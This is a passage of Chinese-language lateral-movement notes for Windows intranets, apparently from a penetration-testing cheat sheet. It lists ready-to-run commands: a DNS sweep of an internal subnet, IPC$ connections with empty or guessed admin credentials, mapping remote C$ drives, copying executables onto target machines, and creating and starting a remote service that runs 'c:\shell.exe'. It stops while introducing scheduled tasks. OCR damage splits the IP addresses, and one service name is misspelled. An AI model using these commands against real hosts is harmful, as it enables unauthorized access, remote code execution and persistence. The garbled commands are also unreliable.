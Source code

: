 
#### 2-搜集当前内网中的dns信息

```
for /L %a in (1,1,254) DO @nslookup 192 .168.1.%a | find "Name:" >> dnslog.txt
```



### 三、连接主机 & 命令执行

#### 1-传统IPC连接

```
net use \\ 192 .168.1.101\ipc$ /u:"" "" 先空连接探测
net use 查看当前机器中的ipc连接有哪些
net use \\ 192 .168.1.101\admin$ /user:"admin" "admin" 建立真正的ipc
net use \\ 192 .168.1.101\admin$ /del /y 指定删除自己建立的IPC
net use * /del /y 删除所有ipc
```



#### 2-ipc建立成功后的 文件操作

```
第一种方式[磁盘映射]:
net use z: \\ 192 .168.3.122\c$ 把对方的c盘映射过来,当做本地盘
net use z: /del /y 用完以后,务必立马删除映射
第二种方式[推荐用xcopy]:
xcopy d:\sqlitedata\*.* \\ 192 .168.1.101\c$\temp /E /Y /D
也可在建立ipc后直接远程拷贝，copy和move都可以使用
copy c:\windows\temp\*.exe \\ 192 .168.1.101\c$\windows\temp\*.exe 复制
move c:\windows\temp\*.exe \\ 192 .168.1.101\c$\windows\temp\*.exe 剪切
```

#### 3-IPC建立成功后的 SC操作

SC创建服务添加的常规程序需要有返回值,不然启动服务时会报 1053 错误

```
sc \\ 192 .168.1.101 create shellsrv binpath= "c:\shell.exe" start= auto displayname=
"shellstart"
sc \\ 192 .168.1.101 create test binpath= "c:\windows\temp\test.bat" start= auto displayname=
"shellstart"
sc \\ 192 .168.1.101 start shllsrv
sc \\ 192 .168.1.101 stop shllsrv
sc \\ 192 .168.1.101 delete shellsrv
```



#### 4-IPC建立成功之后的 计划任务操作

计划任务有两个指令：at和 schtasks

at 只支持win 03和部分老版本win08，一般情况下，win08-SP1的系统是能添加 at 计划任务，但不一定执行，

推荐win08及之后的系统都选择 schtasks 创建计划任务
